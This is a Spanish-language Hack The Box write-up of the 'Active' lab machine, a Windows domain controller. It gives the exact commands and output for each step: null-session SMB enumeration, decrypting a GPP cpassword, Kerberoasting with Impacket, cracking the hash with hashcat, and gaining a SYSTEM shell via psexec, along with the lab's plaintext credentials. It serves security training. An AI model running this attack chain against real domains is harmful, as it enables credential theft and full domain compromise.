




---

## 1. Ficha técnica


- **Máquina:** Active
- **Plataforma:** Hack The Box
- **Dificultad:** Fácil
- **Autores:** eks & mrb3n
- **Vectores y Técnicas:** Enumeración de SMB y descubrimiento de copia de seguridad de SYSVOL accesible mediante sesión nula, extracción y descifrado de credenciales GPP, enumeración de Directorio Activo y ataque de Kerberoasting (Escalada de privilegios e intrusión).

---

## 2. Reconocimiento

### 2.1. Comprobación de conectividad

Como primer paso, se verificó la conexión con el objetivo enviando cuatro paquetes ICMP mediante el comando `ping`.

**Comando ejecutado:**

```bash
ping -c 4 10.129.40.42
```

**Resultados:**

```plaintext
PING 10.129.40.42 (10.129.40.42) 56(84) bytes of data.
64 bytes from 10.129.40.42: icmp_seq=1 ttl=127 time=180 ms
64 bytes from 10.129.40.42: icmp_seq=2 ttl=127 time=183 ms
64 bytes from 10.129.40.42: icmp_seq=3 ttl=127 time=182 ms
64 bytes from 10.129.40.42: icmp_seq=4 ttl=127 time=180 ms

--- 10.129.40.42 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3006ms
rtt min/avg/max/mdev = 180.186/181.264/182.903/1.113 ms
```

**Conclusiones:**

- **Identificación del SO (TTL = 127):** El valor de TTL es cercano a 128, lo que sugiere que el sistema operativo objetivo es **Windows**.
- **Conectividad (0% packet loss):** No se perdió ningún paquete, lo que confirma que el host está activo y la conexión es estable.

---

### 2.2. Escaneo de puertos TCP

Se realizó un escaneo rápido sobre el total de los 65,535 puertos TCP para identificar cuáles se encontraban abiertos.

**Comando ejecutado:**

```bash
sudo nmap -p- --open -sS --min-rate 5000 -Pn -n 10.129.40.42
```

**Resultados:**

```plaintext
Nmap scan report for 10.129.40.42
Host is up (0.44s latency).
Not shown: 65511 closed tcp ports (reset), 1 filtered tcp port (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
#####[!] Recortado para optimizar el reporte [!]#####
```

**Conclusiones:**

- **Confirmación de Windows y Active Directory:** La presencia de servicios como SMB (445), NetBIOS (139) y RPC (135) confirma que el objetivo es un sistema Windows integrado en un entorno de red corporativo.
- **Rol de Controlador de Dominio (DC):** La combinación activa de servicios críticos como DNS (53), Kerberos (88) y LDAP (389) indica con alta certeza que el equipo actúa como Controlador de Dominio.

---

## 3. Enumeración

### 3.1. Enumeración de puertos y servicios

Con la lista de puertos abiertos definida, se realizó un escaneo dirigido utilizando los parámetros `-sC` (scripts por defecto) y `-sV` (detección de versiones) de Nmap para profundizar en las tecnologías activas.

**Comando ejecutado:**

```bash
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49162,49166,49168 -sCV 10.129.40.42
```

**Resultados:**

```plaintext
Nmap scan report for 10.129.40.42
Host is up (0.45s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-12 17:25:28Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-07-12T17:26:34
|_  start_date: 2026-07-12T16:09:22
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
#####[!] Recortado para optimizar el reporte[!]#####
```

**Conclusiones:**

- **Identificación del Entorno:** El servicio LDAP y la sección _Service Info_ confirman que el nombre del host es `DC` y pertenece al dominio `active.htb` (`DC.active.htb`).
- **Versión del Sistema Operativo:** Se ratifica el uso de **Windows Server 2008 R2 SP1**, información de alto valor para identificar vulnerabilidades o parches faltantes en el sistema.
- **Seguridad en SMB:** El script de Nmap confirma que la firma de SMB está configurada como **requerida** (`message_signing: required`), lo que mitiga de forma efectiva los ataques de tipo _SMB Relay_.

---

### 3.2. Enumeración SMB

Tras agregar el dominio `active.htb` al archivo `/etc/hosts`, se intentó realizar una transferencia de zona AXFR y una consulta de registros MX en el servicio DNS, sin obtener resultados relevantes. Por ello, se procedió con la enumeración del servicio SMB utilizando `smbmap`.

**Comando ejecutado:**

```bash
smbmap -H 10.129.40.42 -u '' -p ''
```

**Resultado:** Se detectó que es posible iniciar una sesión nula, lo que otorgó acceso de lectura al recurso compartido `Replication`.



### Inspección de recursos con smbclient

Al explorar el recurso compartido, se identificó la siguiente estructura de directorios:

```plaintext
\\10.129.40.42\Replication\
├──active.htb/
├──├──DfsrPrivate/
├──├──Policies/
├──├──scripts/
```

> **Nota:** La presencia de las carpetas `Policies` y `scripts` dentro del directorio del dominio indica que podría tratarse de una copia de **SYSVOL**. En este tipo de entornos, suele ser común encontrar el archivo `Groups.xml`, el cual a veces almacena credenciales expuestas de forma local.

Para analizar el contenido por completo, se activó el modo recursivo en `smbclient`, localizando el siguiente archivo crítico:

```plaintext

\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups
  .                                   D        0  Sat Jul 21 05:37:44 2018
  ..                                  D        0  Sat Jul 21 05:37:44 2018
  Groups.xml                          A      533  Wed Jul 18 15:46:06 2018
```

Finalmente, se descargó el archivo `Groups.xml` utilizando el siguiente comando dentro de la sesión de `smbclient`:

```bash
get \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
```

---

### 3.3. Descifrado de contraseñas de Group Policy Preferences (GPP)

Al analizar el archivo descargado, se identificó el atributo `cpassword` con una clave cifrada perteneciente al usuario `SVC_TGS`:

```plaintext
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

Dado que Microsoft utiliza una clave AES pública conocida para cifrar estas contraseñas en GPP, se utilizó la herramienta `gpp-decrypt` para obtener el texto en claro.

**Comando ejecutado:**

```bash
gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

**Resultado:** Se descifraron con éxito las credenciales del usuario: `SVC_TGS:GPPstillStandingStrong2k18`.

----

### 3.4. Enumeración SMB con credenciales válidas

Debido a la ausencia de servicios de administración remota expuestos (como RDP o WinRM), se utilizaron las credenciales obtenidas para validar el acceso mediante `NetExec` y verificar si el usuario disponía de privilegios administrativos para una posible ejecución remota con `psexec`.

**Comando ejecutado:**

```bash
nxc smb 10.129.40.42 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```

**Resultado:** Las credenciales fueron válidas, pero la ausencia de la etiqueta `(Pwned!)` confirmó que el usuario no cuenta con privilegios de administrador local. Por lo tanto, se procedió a enumerar los recursos compartidos disponibles para este usuario.

**Comando ejecutado:**

```bash
nxc smb 10.129.40.42 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --shares
```

**Resultado:** Se confirmó acceso de lectura (`READ`) en los siguientes recursos compartidos:

- `NETLOGON`
- `Replication`
- `SYSVOL`
- `Users`



### Enumeración de usuarios del dominio

Al contar con una sesión válida en el dominio, se utilizó nuevamente `NetExec` para listar los usuarios existentes en el Active Directory.

**Comando ejecutado:**

```bash
nxc smb 10.129.40.42 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --users
```

**Resultados:** Se confirmaron los siguientes usuarios válidos dentro del dominio.

```plaintext
Administrator
Guest
krbtgt
SVC_TGS
```

---

## 4. Explotación

### 4.1. Ataque Kerberoasting contra cuentas de servicio

Tras comprobar mediante `GetNPUsers` que ningún usuario válido tenía activa la opción `DONT_REQUIRE_PREAUTH` (requisito necesario para el ataque _AS-REP Roasting_), se optó por evaluar el vector de **Kerberoasting**.

Este ataque permite a cualquier usuario autenticado en el dominio solicitar un ticket de servicio (TGS) para cualquier cuenta que tenga un Nombre de Principal de Servicio (**SPN**) configurado. La sección cifrada de este ticket contiene el hash de la contraseña del usuario del servicio, el cual puede ser extraído y descifrado de forma _offline_.

Para listar los SPNs disponibles y solicitar sus respectivos tickets, se utilizó la herramienta `GetUserSPNs` de la suite Impacket.

**Comando ejecutado:**

```bash
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```

**Resultado:** Se identificó que la cuenta `Administrator` funciona como una cuenta de servicio dentro del dominio. El comando extrajo con éxito el ticket TGS correspondiente, el cual contiene el hash de la contraseña de dicha cuenta.



### Descifrado del hash con Hashcat

Una vez obtenido el ticket TGS del usuario administrador, se procedió a realizar un ataque de fuerza bruta _offline_ utilizando `Hashcat`. Para este tipo de hashes (Kerberos 5 TGS-REP), se empleó el modo de descifrado `13100` junto con el diccionario `rockyou.txt`.

**Comando ejecutado:**

```bash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

**Resultado:** El ataque fue exitoso y se lograron comprometer las credenciales del administrador del dominio:

- **Usuario:** `Administrator`
- **Contraseña:** `Ticketmaster1968`

---

## 5. Post-explotación

### 5.1. Validación de credenciales y acceso al sistema

Antes de realizar la intrusión, se validaron las nuevas credenciales en el dominio utilizando `NetExec`.

**Comando ejecutado:**

```bash
nxc smb active.htb -u 'administrator' -p 'Ticketmaster1968'
```

**Resultado:** La herramienta devolvió la etiqueta `(Pwned!)`, lo que confirmó que las credenciales no solo son válidas, sino que disponen de privilegios de administración local sobre el objetivo.

### Acceso remoto mediante PsExec

Al confirmar los privilegios administrativos, se utilizó la herramienta `psexec` de Impacket para obtener una consola remota interactiva en el servidor.

**Comando ejecutado:**

```bash
impacket-psexec administrator:Ticketmaster1968@active.htb
```

**Resultado:** El ataque se completó correctamente, otorgando una sesión con los máximos privilegios posibles en entornos Windows: `nt authority\system`. Con esto se logró el compromiso total y la resolución de la máquina.



---


